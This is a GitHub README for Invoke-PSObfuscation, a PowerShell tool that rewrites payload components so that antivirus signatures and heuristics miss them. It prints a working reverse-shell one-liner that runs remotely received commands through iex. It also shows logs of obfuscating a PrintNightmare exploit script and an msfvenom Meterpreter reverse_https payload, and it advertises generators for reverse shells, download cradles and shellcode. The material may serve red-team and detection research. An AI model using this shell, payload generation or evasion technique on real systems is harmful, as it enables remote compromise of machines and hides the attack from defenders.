

# Invoke-PSObfuscation

Traditional obfuscation techniques tend to add layers to encapsulate standing code, such as base64 or compression. These payloads do continue to have a varied degree of success, but they have become trivial to extract the intended payload and some launchers get detected often, which essentially introduces chokepoints.

The approach this tool introduces is a methodology where you can target and obfuscate the individual components of a script with randomized variations while achieving the same intended logic, without encapsulating the entire payload within a single layer. Due to the complexity of the obfuscation logic, the resulting payloads will be very difficult to signature and will slip past heuristic engines that are not programmed to emulate the inherited logic.

While this script can obfuscate most payloads successfully on it's own, this project will also serve as a standing framework that I will to use to produce future functions that will utilize this framework to provide dedicated obfuscated payloads, such as one that only produces reverse shells.

I wrote a blog piece for Offensive Security as a precursor into the techniques this tool introduces. Before venturing further, consider giving it a read first:
https://www.offensive-security.com/offsec/powershell-obfuscation/

## Dedicated Payloads

As part of my on going work with PowerShell obfuscation, I am building out scripts that produce dedicated payloads that utilize this framework. These have helped to save me time and hope you find them useful as well. You can find them within their own folders at the root of this repository.

1. Get-ReverseShell
2. Get-DownloadCradle
3. Get-Shellcode

## Components

Like many other programming languages, PowerShell can be broken down into many different components that make up the executable logic. This allows us to defeat signature-based detections with relative ease by changing how we represent individual components within a payload to a form an obscure or unintelligible derivative. 

Keep in mind that targeting every component in complex payloads is very instrusive. This tool is built so that you can target the components you want to obfuscate in a controlled manner. I have found that a lot of signatures can be defeated simply by targeting cmdlets, variables and any comments. When using this against complex payloads, such as print nightmare, keep in mind that custom function parameters / variables will also be changed. Always be sure to properly test any resulting payloads and ensure you are aware of any modified named paramters.

Component types such as pipes and pipeline variables are introduced here to help make your payload more obscure and harder to decode. 

**Supported Types**

* Aliases (iex)
* Cmdlets (New-Object)
* Comments (# and <# #>)
* Integers (4444)
* Methods ($client.GetStream())
* Namespace Classes (System.Net.Sockets.TCPClient)
* Pipes (|)
* Pipeline Variables ($_)
* Strings ("value" | 'value')
* Variables ($client)

## Generators

Each component has its own dedicated generator that contains a list of possible static or dynamically generated values that are randomly selected during each execution. If there are multiple instances of a component, then it will iterative each of them individually with a generator. This adds a degree of randomness each time you run this tool against a given payload so each iteration will be different. The only exception to this is variable names.

If an algorithm related to a specific component starts to cause a payload to flag, the current design allows us to easily modify the logic for that generator without compromising the entire script.

```powershell
$Picker = 1..6 | Get-Random
Switch ($Picker) {
    1 { $NewValue = 'Stay' }
    2 { $NewValue = 'Off' }
    3 { $NewValue = 'Ronins' }
    4 { $NewValue = 'Lawn' }
    5 { $NewValue = 'And' }
    6 { $NewValue = 'Rocks' }
}
```

## Requirements

This framework and resulting payloads have been tested on the following operating system and PowerShell versions. The resulting reverse shells will not work on PowerShell v2.0

| PS Version | OS Tested | Invoke-PSObfucation.ps1 | Reverse Shell
| -------------- | :--------- | :--------- | :--------- |
| 7.1.3 | Kali 2021.2 | Supported | Supported
| 5.1.19041.1023 | Windows 10 10.0.19042 | Supported | Supported
| 5.1.21996.1 | Windows 11 10.0.21996 | Supported | Supported

## Usage Examples

### CVE-2021-34527 (PrintNightmare)

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/tristram> . ./Invoke-PSObfuscation.ps1
PS /home/tristram> Invoke-PSObfuscation -Path .\CVE-2021-34527.ps1 -Cmdlets -Comments -NamespaceClasses -Variables -OutFile o-printnightmare.ps1

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating namespace classes
[*] Obfuscating cmdlets
[*] Obfuscating variables
[-] -DriverName is now -QhYm48JbCsqF
[-] -NewUser is now -ybrcKe
[-] -NewPassword is now -ZCA9QHerOCrEX84gMgNwnAth
[-] -DLL is now -dNr
[-] -ModuleName is now -jd
[-] -Module is now -tu3EI0q1XsGrniAUzx9WkV2o
[-] -Type is now -fjTOTLDCGufqEu
[-] -FullName is now -0vEKnCqm
[-] -EnumElements is now -B9aFqfvDbjtOXPxrR
[-] -Bitfield is now -bFUCG7LB9gq50p4e
[-] -StructFields is now -xKryDRQnLdjTC8
[-] -PackingSize is now -0CB3X
[-] -ExplicitLayout is now -YegeaeLpPnB
[*] Removing comments
[*] Writing payload to o-printnightmare.ps1
[*] Done

PS /home/tristram> 
```

### PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient("127.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/tristram> . ./Invoke-PSObfuscation.ps1                                                                            
PS /home/tristram> Invoke-PSObfuscation -Path ./revshell.ps1 -Integers -Cmdlets -Strings -ShowChanges

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
    Generator 2 >> 4444 >> $(0-0+0+0-0-0+0+4444)
    Generator 1 >> 65535 >> $((65535))
[*] Obfuscating strings
    Generator 2 >> 127.0.0.1 >> $([char](16*49/16)+[char](109*50/109)+[char](0+55-0)+[char](20*46/20)+[char](0+48-0)+[char](0+46-0)+[char](0+48-0)+[char](0+46-0)+[char](51*49/51))
    Generator 2 >> PS  >> $([char](1*80/1)+[char](86+83-86)+[char](0+32-0))
    Generator 1 >> >  >> ([string]::join('', ( (62,32) |%{ ( [char][int] $_)})) | % {$_})
[*] Obfuscating cmdlets
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 2 >> New-Object >> & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_})
    Generator 1 >> Out-String >> & (("Tpltq1LeZGDhcO4MunzVC5NIP-vfWow6RxXSkbjYAU0aJm3KEgH2sFQr7i8dy9B")[13,16,3,25,35,3,55,57,17,49] -join '')
[*] Writing payload to /home/tristram/obfuscated.ps1
[*] Done
```

### Obfuscated PowerShell Reverse Shell



### Meterpreter PowerShell Shellcode

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/kali> msfvenom -p windows/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1 -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 686 bytes
Final size of ps1 file: 3385 bytes
Saved as: meterpreter.ps1
PS /home/kali> . ./Invoke-PSObfuscation.ps1                                                                                        
PS /home/kali> Invoke-PSObfuscation -Path ./meterpreter.ps1 -Integers -Variables -OutFile o-meterpreter.ps1                     

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
[*] Obfuscating variables
[*] Writing payload to o-meterpreter.ps1
[*] Done
```

## Comment-Based Help
 
```powershell
<#
    .SYNOPSIS
        Transforms PowerShell scripts into something obscure, unclear, or unintelligible.
    
    .DESCRIPTION
        Where most obfuscation tools tend to add layers to encapsulate standing code, such as base64 or compression, 
        they tend to leave the intended payload intact, which essentially introduces chokepoints. Invoke-PSObfuscation 
        focuses on replacing the existing components of your code, or layer 0, with alternative values. 
    
    .PARAMETER Path
        A user provided PowerShell payload via a flat file.
    
    .PARAMETER All
        The all switch is used to engage every supported component to obfuscate a given payload. This action is very intrusive
        and could result in your payload being broken. There should be no issues when using this with the vanilla reverse
        shell. However, it's recommended to target specific components with more advanced payloads. Keep in mind that some of 
        the generators introduced in this script may even confuse your ISE so be sure to test properly.
        
    .PARAMETER Aliases
        The aliases switch is used to instruct the function to obfuscate aliases.

    .PARAMETER Cmdlets
        The cmdlets switch is used to instruct the function to obfuscate cmdlets.

    .PARAMETER Comments
        The comments switch is used to instruct the function to remove all comments.

    .PARAMETER Integers
        The integers switch is used to instruct the function to obfuscate integers.

    .PARAMETER Methods
        The methods switch is used to instruct the function to obfuscate method invocations.

    .PARAMETER NamespaceClasses
        The namespaceclasses switch is used to instruct the function to obfuscate namespace classes.
    
    .PARAMETER Pipes
        The pipes switch is used to instruct the function to obfuscate pipes.

    .PARAMETER PipelineVariables
        The pipeline variables switch is used to instruct the function to obfuscate pipeline variables.

    .PARAMETER ShowChanges
        The ShowChanges switch is used to instruct the script to display the raw and obfuscated values on the screen.

    .PARAMETER Strings
        The strings switch is used to instruct the function to obfuscate prompt strings.
  
    .PARAMETER Variables
        The variables switch is used to instruct the function to obfuscate variables.

    .EXAMPLE
        PS C:\> Invoke-PSObfuscation -Path .\revshell.ps1 -All
    
    .EXAMPLE
        PS C:\> Invoke-PSObfuscation -Path .\CVE-2021-34527.ps1 -Cmdlets -Comments -NamespaceClasses -Variables -OutFile o-printernightmare.ps1
    
    .OUTPUTS
        System.String, System.String
    
    .NOTES
        Additional information about the function.
#>
```
